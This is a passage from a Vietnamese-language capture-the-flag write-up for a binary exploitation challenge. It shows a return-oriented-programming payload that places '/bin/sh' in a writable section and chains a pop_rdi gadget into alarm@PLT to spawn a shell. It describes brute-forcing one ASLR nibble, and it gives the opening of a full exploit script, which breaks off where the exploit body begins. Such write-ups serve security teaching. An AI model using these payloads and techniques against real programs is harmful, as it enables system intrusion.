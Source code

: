 ```py
```

Và ở lần read cuối cùng này dữ liệu sẽ bắt đầu từ `rw_section` và việc ta cần làm là đặt chuỗi `/bin/sh` ở đầu `rw_section` và sử dụng `pop_rdi`, để setup `rdi` và call `alarm@PLT`

```py
    pl = flat(
          b'/bin/sh\0',                  # saved rbp 5
          pop_rdi,                       # saved rip 5
          rw_section,
          exe.plt.alarm,
          rw_section,                    # saved rbp 4
          read_gadget,                   # saved rip 4
    )

    input("4th")
    sleep(0.5)
    s(pl)

    input("5th")
    sleep(0.5)
    s(b'\0')
```

Và vì ASLR bật nên địa chỉ lúc nào cũng động, việc ta cần làm tiếp theo là brute 1 nibble của nó bằng cách chạy đi chạy lại nhiều lần payload với tỉ lệ `1/16` là điều hoàn toàn có thể

### Full exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from time import sleep
context.log_level = 'debug'
exe = context.binary = ELF('./chall_patched', checksec=False)
libc = exe.libc

def init(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.DOCKER:
        docker_port = sys.argv[1]
        docker_path = sys.argv[2]
        p = remote("localhost", docker_port)
        sleep(1)
        pid = process(["pgrep", "-fx", docker_path]).recvall().strip().decode()
        gdb.attach(int(pid), gdbscript=gdbscript, exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
# b*0x000000000040125f
b*0x0000000000401261
c
'''.format(**locals())

while True:
    p = init()
    # ==================== EXPLOIT ====================

```